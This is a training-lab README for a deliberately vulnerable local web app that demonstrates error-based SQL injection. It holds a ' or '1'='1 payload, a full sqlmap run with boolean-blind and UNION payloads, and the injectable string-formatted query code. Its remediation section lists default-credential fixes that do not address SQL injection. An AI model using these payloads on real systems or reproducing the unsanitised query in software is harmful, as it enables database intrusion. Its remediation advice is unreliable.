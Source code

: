 <p align="center"> <img src="https://raw.githubusercontent.com/qeeqbox/sql-injection/main/content/sql-injection.svg"></p>

An application enables users to interact with a database insecurely. A threat actor can exploit this feature by injecting a malicious query into a trusted web application. When the malicious query is executed, the application behaves shows errors. This type of behavior indicates that the attack is not blind

Clone this current repo recursively
```sh
git clone --recurse-submodules https://github.com/qeeqbox/sql-injection
```
Run the webapp using Python
```sh
python3 sql-injection/vulnerable-web-app/webapp.py
```
Open the webapp in your browser 127.0.0.1:5142
<p align="center"> <img src="https://raw.githubusercontent.com/qeeqbox/sql-injection/main/content/1.png"></p>
One of the routes in the web app is /user that takes an id as a parameter, it returns info about the requested user in JSON format
<p align="center"> <img src="https://raw.githubusercontent.com/qeeqbox/sql-injection/main/content/2.png"></p>
If you enter ', you will get: unrecognized token: "'''", which is an error indicating the user's route interacts with a database
<p align="center"> <img src="https://raw.githubusercontent.com/qeeqbox/sql-injection/main/content/3.png"></p>
The payload was executed successfully and caused a delay ' or '1'='1
<p align="center"> <img src="https://raw.githubusercontent.com/qeeqbox/sql-injection/main/content/4.png"></p>

```sh
user@users-Mac-mini vulnerable-web-app % sqlmap -u "http://127.0.0.1:5142/user?id=1" -p id --dbms=sqlite --batch
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.9.7#stable}
|_ -| . [']     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:39:38 /2025-07-26/

[13:39:38] [INFO] testing connection to the target URL
[13:39:38] [WARNING] turning off pre-connect mechanism because of incompatible server ('BaseHTTP/0.6 Python/3.13.5')
[13:39:38] [INFO] checking if the target is protected by some kind of WAF/IPS
[13:39:38] [INFO] testing if the target URL content is stable
[13:39:39] [INFO] target URL content is stable
[13:39:39] [WARNING] heuristic (basic) test shows that GET parameter 'id' might not be injectable
[13:39:39] [INFO] testing for SQL injection on GET parameter 'id'
[13:39:39] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[13:39:39] [INFO] GET parameter 'id' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable 
[13:39:39] [INFO] testing 'Generic inline queries'
[13:39:39] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[13:39:39] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[13:39:39] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[13:39:39] [INFO] target URL appears to have 7 columns in query
[13:39:39] [INFO] GET parameter 'id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 34 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1' AND 1533=1533 AND 'rZkz'='rZkz

    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
    Payload: id=-6078' UNION ALL SELECT NULL,NULL,CHAR(113,120,98,113,113)||CHAR(98,89,100,100,105,70,90,116,73,114,112,70,101,121,79,80,73,86,73,76,79,67,119,108,102,106,109,66,90,77,120,112,103,99,87,103,79,113,99,79)||CHAR(113,120,118,107,113),NULL,NULL,NULL,NULL-- OsvX
---
[13:39:39] [INFO] testing SQLite
[13:39:39] [INFO] confirming SQLite
[13:39:39] [INFO] actively fingerprinting SQLite
[13:39:39] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[13:39:39] [INFO] fetched data logged to text files under '/Users/user/.local/share/sqlmap/output/127.0.0.1'

[*] ending @ 13:39:39 /2025-07-26/
```

## Code
When you request info about user using an known id, the get_user is called
```py
elif parsed_url.path == '/user' and "id" in get_request_data:
    self.send_content_raw(200, [('Content-type', 'application/json')], self.get_user(get_request_data["id"][0]))
    return
```
The get_user() function returns info about a user using their id without checking if the id is sanitized
```py
    def get_user(self,id_=None):
        ret = b""
        try:
            if id_ != None:
                with connect(DATABASE, isolation_level=None, check_same_thread=False) as connection:
                    cursor = connection.cursor()
                    results = cursor.execute("SELECT * FROM users WHERE id='%s'" % (id_)).fetchone()
                    return dumps(results).encode('utf-8')
        except Exception as e:
            ret = str(e).encode("utf-8")
        return ret
```
```
 
## Impact
Vary

## Risk
- Unauthorized Access
- System Compromise
- Operational Disruption
- Legal and Financial Damage
  - Compliance Failures
  - Reputation Damage

## Redemption
- Disable, remove or change default credentials
- Alternative Authentication Mechanisms

## ID
91f9b046-b802-425a-b71b-64c21c6b1c0f
